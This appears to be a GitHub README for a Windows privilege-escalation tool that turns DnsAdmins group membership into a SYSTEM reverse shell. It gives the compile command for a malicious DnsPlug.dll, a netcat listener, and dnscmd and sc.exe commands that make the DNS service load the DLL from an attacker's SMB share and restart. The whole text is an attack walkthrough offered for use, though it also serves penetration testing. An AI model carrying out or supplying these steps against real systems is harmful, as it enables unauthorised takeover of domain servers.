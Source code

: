 ## Gain system reverse shell from domain user with Dnsadmin group
  
    
Reverse shell is practically copy-paste from `dev-frog/C-Reverse-Shell` (here on Github)  
The DNS api is greatly inspired by `vbscrub`  
  
# Compile & execute
*NB!:* Remember to edit the `DnsPlug.cpp` file to match IP and Port of attacker.
```bash
# x86_64-w64-mingw32-gcc -shared -o DnsPlug.dll DnsPlug.cpp -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
.. Setup NC listener
# nc -lnvp 443
.. go to Windows machine
PS > dnscmd.exe <target.ip> /config /serverlevelplugindll \\<your_smb>\<share_name>\DnsPlug.dll
PS > sc.exe \\<target.ip> stop dns
PS > sc.exe \\<target.ip> start dns
```
